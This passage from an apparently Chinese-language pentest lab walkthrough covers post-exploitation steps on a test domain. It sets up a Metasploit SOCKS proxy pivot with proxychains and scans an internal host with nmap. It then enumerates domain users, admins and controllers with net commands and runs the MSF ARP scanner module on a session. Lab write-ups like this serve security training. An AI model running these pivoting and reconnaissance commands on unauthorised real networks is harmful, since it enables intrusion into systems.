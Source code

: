 使用socks模块：

```text
use auxiliary/server/socks_proxy
run
```

​![image](http://127.0.0.1:6806/assets/image-20231213195519-h0djmmj.png)​

info查看，添加成功

​![image](http://127.0.0.1:6806/assets/image-20231213195623-hkhrdbn.png)​

配置 kali socks代理  
配置proxychains：

```text
vim proxychains4.conf 
```

​![image](http://127.0.0.1:6806/assets/image-20231213195708-1p6db42.png)​

### 测试

```text
proxychains curl 192.168.52.143
访问成功 说明 代理添加成功
proxychains nmap -sT -Pn 192.168.52.143
```

​![image](http://127.0.0.1:6806/assets/image-20231213195842-v5ahk5r.png)​

​![image](http://127.0.0.1:6806/assets/image-20231213201913-ene9i6s.png)​

## 域内信息收集

```text
net time /domain        #查看时间服务器
net user /domain        #查看域用户
net view /domain        #查看有几个域
net view /domain:GOD  #查看GOD	域情况
nslookup  主机名	 		#查看域内其他主机  可能ip查不出来
net group "domain computers" /domain         #查看域内所有的主机名
net group "domain admins"   /domain          #查看域管理员
net group "domain controllers" /domain       #查看域控
```

### 利用MSF的ARP模块扫描52网段

```text
use post/windows/gather/arp_scanner 
set rhosts 192.168.52.0/24
set session 1
exploit
```

​​![image](http://127.0.0.1:6806/assets/image-20231213203721-slz3jcu.png)​​
